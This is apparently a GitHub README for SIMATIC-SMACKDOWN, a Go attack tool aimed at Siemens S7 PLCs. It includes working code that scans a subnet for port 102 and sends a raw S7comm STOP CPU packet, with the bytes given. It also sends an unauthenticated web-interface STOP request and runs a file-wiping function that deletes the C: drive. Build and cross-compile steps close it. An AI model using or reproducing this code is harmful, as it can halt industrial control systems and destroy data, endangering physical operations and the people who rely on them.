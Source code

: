 # :wrestling: SIMATIC-SMACKDOWN:

A simple and compact program targeting SIMATIC S7 Programmable Logic Controllers (PLCs) written in Go. Allowing for cross-compilation to target multiple operating systems out of the box, SIMATIC-SMACKDOWN enumerates networks for S7 devices before launching a distributed attack to STOP PLC CPUs.

<p align="center">
  <img width="700" height="450" alt="PXCM" src="https://user-images.githubusercontent.com/72598486/204815532-a523b140-0d63-404d-b3bf-25443b6fac7b.jpg">
</p>

# What are Siemens S7 Programmable Logic Controllers?

SIMATIC is a series of programmable logic controller and automation systems developed by Siemens. The series has gone through four major generations, the latest being the SIMATIC S7 generation. These PLCs are small industrial computers with modular components designed to automate customized control processes. To understand a PLC system, it is best to breakdown the system into two primary parts: the **central processing unit (CPU)** and the **input/output (I/O)** interface system.


![image](https://user-images.githubusercontent.com/72598486/204818575-0b552158-01e0-47fe-9c44-0a07faca07e1.png)


The **central processing unit** contains memory and a communication system needed to instruct the PLC on how to perform. Hence, the reason why CPUs are the “brain” of programmable logic controllers. This is also where data processing and diagnostics take place. The communication system allows the CPU to communicate with other devices such as I/O devices, programming devices, and other PLC systems.

**Input/output (I/O)** modules relay the necessary information to the CPU and communicate the required task in a continuous loop. Input and output devices can either be digital or analog form: digital devices are finite values represented in values of 1 or 0, analog devices are infinite values, and measure ranges of currents or voltages. Inputs or providers are switches, sensors, and smart devices in analog or digital forms. Outputs can be motor starters, lights, valves, and smart devices.

The automation process can be seen in the image below:

![image](https://user-images.githubusercontent.com/72598486/204818074-ac112340-df1f-451f-b11d-7a4bd7e3f149.png)

But what if we could send a signal to turn off the CPU so that communication between the device and the operator could not occur?

# How SIMATIC-SMACKDOWN Works:

SIMATIC-SMACKDOWN operates in three phases: interface enumeration, PLC scanning, and STOP PLC CPU.

The first phase of the program enumerates local network interfaces, gathering information about the host's environment:

```go
	// Get Private Interface
    for _, address := range addrs {
        // only add non loopback IPv4 addresses
        ipnet, ok := address.(*net.IPNet)
        if ok && ipnet.IP.To4() != nil && !ipnet.IP.IsLoopback() {
			var ip_addr = ipnet.IP
            return ip_addr.String()
        }
	}
	return ""
  ```
  
After determining the private IP address, the program enumerates the subnet for devices listening on TCP 102, which is defined as ISO-TSAP Transport Service Access Point) Class 0 protocol and utilized by Siemens S7Comm communications.

```go
	// Connect to device ports
	for i := range ip_list {
    	target := ip_list[i] + ":102"
    	conn, err := net.DialTimeout("tcp", target, 1 * time.Second)
    	if err != nil {
			continue
		} else {
			scanned_ips = append(scanned_ips, ip_list[i])
		}
		conn.Close()
	}
	return scanned_ips
```
Once the program identifies the PLCs, SIMATIC-SMACKDOWN launches a STOP CPU command via raw data to the controller. If the device is not password protected, it will turn off the PLC's CPU and stop operations. This functionality has only been tested on an S7-300 and S7-1200.

```go
	// Connect to device ports
	stop := "\x03\x00\x00\x21\x02\xf0\x80\x32\x01\x00\x00\x06\x00\x00\x10\x00\x00\x29\x00\x00\x00\x00\x00\x09\x50\x5f\x50\x52\x4f\x47\x52\x41\x4d"
	for i := range scanned_ips {
    	target := scanned_ips[i] + ":102"
    	conn, err := net.Dial("tcp", target)
    	if err != nil {
			continue
		} else {
			_, err = conn.Write([]byte(stop))
		}
		conn.Close()
	}
```

After sending the termination command to the controller, the program sends an additional STOP CPU via the web interface. If the device is configured to "allow Everybody to change operating mode (Start/Stop)" in the webserver user management, this unauthenticated access will stop controller operations. 

```go
	for i := range scanned_ips {
		client := &http.Client{}
		var data = strings.NewReader(`Run=1&PriNav=Stop`)
		req, err := http.NewRequest("POST", "http://"+scanned_ips[i]+"/CPUCommands", data)
		if err != nil {
			continue
		}
		req.Header.Set("Host", scanned_ips[i])
		req.Header.Set("Content-Length", "19")
		req.Header.Set("Cache-Control", "max-age=0")
		req.Header.Set("Upgrade-Insecure-Requests", "1")
		req.Header.Set("Origin", "http://"+scanned_ips[i])
		req.Header.Set("Content-Type", "application/x-www-form-urlencoded")
		req.Header.Set("User-Agent", "Mozilla/5.0. (Windows NT 10.0; Win64; x64) AppleWebkit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36")
		req.Header.Set("Accept", "text/html, application /xhmtl+xml, application/xml; q=0.9,image/avif, image/webp, image/apng,*/ - *; q=0.8, application/signed-exchange; v=b3; q=0.9")
		req.Header.Set("Referer", "http://"+scanned_ips[i]+"/Portal/Portal.mwsl?PriNav=Start")
		req.Header.Set("Accept-Encoding", "gzip, deflate")
		req.Header.Set("Accept-Language", "en-US, en; q=0.9")
		req.Header.Set("Connection", "close")
		req.Header.Set("Cookie", "siemens_automation_no_intro=TRUE")
		resp, err := client.Do(req)
```

The program proceeds to wipe the filesystem of the device, deleting files accessible and owned by the current user. The damage from this function is dependent on administrative privileges and security context in which the program is run. Running the program as root or administrator will devastate the device.

```go
func KillWindows() {
	// If current user does not have administrative privileges, removes files owned by current user
	err := os.RemoveAll("C:\\")
	if err != nil {
		return			
	}
}
```

# Install: 

Download the repository:

```
$ mkdir SIMATIC-SMACKDOWN
$ cd SIMATIC-SMACKDOWN/
$ sudo git clone https://github.com/RoseSecurity/SIMATIC-SMACKDOWN.git
```

Install Go by finding the appropriate package for your OS at ```https://go.dev/dl/```. You can also download the installer file via ```wget```:

```
$ # wget https://dl.google.com/go/go1.13.5.linux-amd64.tar.gz
# Extract tarball and profit
$ sudo tar -C /usr/local/ -xzf go1.13.5.linux-amd64.tar.gz
```

Or Ubuntu install using ```apt```

``` 
$ sudo apt install golang-go
```

Build Binaries:

```
# Compile for Windows AMD64
$ env GOOS=windows GOARCH=amd64 go build simatic_smackdown.go

# NOTE: The previously compiled binary will contain symbol table and debugging information. To avoid this, use the following:
$ env GOOS=windows GOARCH=amd64 go build -ldflags "-s -w" simatic_smackdown.go

# Compile for Linux AMD64
$ env GOOS=linux GOARCH=amd64 go build simatic_smackdown.go
```
